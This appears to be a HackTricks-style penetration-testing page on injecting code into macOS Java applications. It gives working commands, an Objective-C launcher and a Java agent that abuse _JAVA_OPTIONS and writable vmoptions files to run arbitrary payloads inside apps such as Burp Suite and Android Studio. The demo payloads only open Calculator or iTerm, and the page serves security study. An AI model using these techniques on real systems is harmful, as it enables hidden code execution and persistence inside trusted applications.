 # macOS Java Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Enumeration

Find Java applications installed in your system. It was noticed that Java apps in the **Info.plist** will contain some java parameters which contain the string **`java.`**, so you can search for that:

```bash
# Search only in /Applications folder
sudo find /Applications -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null

# Full search
sudo find / -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null
```

## \_JAVA_OPTIONS

The env variable **`_JAVA_OPTIONS`** can be used to inject arbitrary java parameters in the execution of a java compiled app:

```bash
# Write your payload in a script called /tmp/payload.sh
export _JAVA_OPTIONS='-Xms2m -Xmx5m -XX:OnOutOfMemoryError="/tmp/payload.sh"'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"
```

To execute it as a new process and not as a child of the current terminal you can use:

```objectivec
#import <Foundation/Foundation.h>
// clang -fobjc-arc -framework Foundation invoker.m -o invoker

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        // Specify the file path and content
        NSString *filePath = @"/tmp/payload.sh";
        NSString *content = @"#!/bin/bash\n/Applications/iTerm.app/Contents/MacOS/iTerm2";

        NSError *error = nil;

        // Write content to the file
        BOOL success = [content writeToFile:filePath
                                 atomically:YES
                                   encoding:NSUTF8StringEncoding
                                      error:&error];

        if (!success) {
            NSLog(@"Error writing file at %@\n%@", filePath, [error localizedDescription]);
            return 1;
        }

        NSLog(@"File written successfully to %@", filePath);

        // Create a new task
        NSTask *task = [[NSTask alloc] init];

        /// Set the task's launch path to use the 'open' command
        [task setLaunchPath:@"/usr/bin/open"];

        // Arguments for the 'open' command, specifying the path to Android Studio
        [task setArguments:@[@"/Applications/Android Studio.app"]];

        // Define custom environment variables
        NSDictionary *customEnvironment = @{
            @"_JAVA_OPTIONS": @"-Xms2m -Xmx5m -XX:OnOutOfMemoryError=/tmp/payload.sh"
        };

        // Get the current environment and merge it with custom variables
        NSMutableDictionary *environment = [NSMutableDictionary dictionaryWithDictionary:[[NSProcessInfo processInfo] environment]];
        [environment addEntriesFromDictionary:customEnvironment];

        // Set the task's environment
        [task setEnvironment:environment];

        // Launch the task
        [task launch];
    }
    return 0;
}
```

However, that will trigger an error on the executed app, another more stealth way is to create a java agent and use:

```bash
export _JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```

> [!CAUTION]
> Creating the agent with a **different Java version** from the application can crash the execution of both the agent and the application

Where the agent can be:

```java:Agent.java
import java.io.*;
import java.lang.instrument.*;

public class Agent {
  public static void premain(String args, Instrumentation inst) {
    try {
      String[] commands = new String[] { "/usr/bin/open", "-a", "Calculator" };
      Runtime.getRuntime().exec(commands);
    }
    catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```

To compile the agent run:

```bash
javac Agent.java # Create Agent.class
jar cvfm Agent.jar manifest.txt Agent.class # Create Agent.jar
```

With `manifest.txt`:

```
Premain-Class: Agent
Agent-Class: Agent
Can-Redefine-Classes: true
Can-Retransform-Classes: true
```

And then export the env variable and run the java application like:

```bash
export _JAVA_OPTIONS='-javaagent:/tmp/j/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```

## vmoptions file

This file support the specification of **Java params** when Java is executed. You could use some of the previous tricks to change the java params and **make the process execute arbitrary commands**.\
Moreover, this file can also **include others** with the `include` directory, so you could also change an included file.

Even more, some Java apps will **load more than one `vmoptions`** file.

Some applications like Android Studio indicates in their **output where are they looking** for these files, like:

```bash
/Applications/Android\ Studio.app/Contents/MacOS/studio 2>&1 | grep vmoptions

2023-12-13 19:53:23.920 studio[74913:581359] fullFileName is: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] fullFileName exists: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.921 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app.vmoptions
2023-12-13 19:53:23.922 studio[74913:581359] parseVMOptions: /Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
2023-12-13 19:53:23.923 studio[74913:581359] parseVMOptions: platform=20 user=1 file=/Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
```

If they don't you can easily check for it with:

```bash
# Monitor
sudo eslogger lookup | grep vmoption # Give FDA to the Terminal

# Launch the Java app
/Applications/Android\ Studio.app/Contents/MacOS/studio
```

Note how interesting is that Android Studio in this example is trying to load the file **`/Applications/Android Studio.app.vmoptions`**, a place where any user from the **`admin` group has write access.**

{{#include ../../../banners/hacktricks-training.md}}



